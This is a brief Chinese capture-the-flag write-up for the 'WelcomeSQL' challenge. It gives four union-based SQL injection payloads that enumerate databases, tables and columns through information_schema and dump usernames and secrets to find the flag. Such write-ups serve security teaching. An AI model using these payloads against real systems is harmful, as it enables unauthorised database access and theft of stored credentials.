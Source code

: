 ## WelcomeSQL

简单的无过滤整型sql注入，网页源码提示GET方法传入id参数

Payload:

```
id=0 union select 1,group_concat(schema_name) from information_schema.schemata
//获取数据库
id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema='WelcomeSQL'
//获取WelcomeSQL库中的表
id=0 union select 1,group_concat(column_name) from information_schema.columns where table_schema='WelcomeSQL' and table_name = 'user_info'
//获取user_info表中的字段
id=0 union select 1,group_concat(id,'_',username,'_',secret) from WelcomeSQL.user_info
//获取字段内容
```

在admin的secret发现flag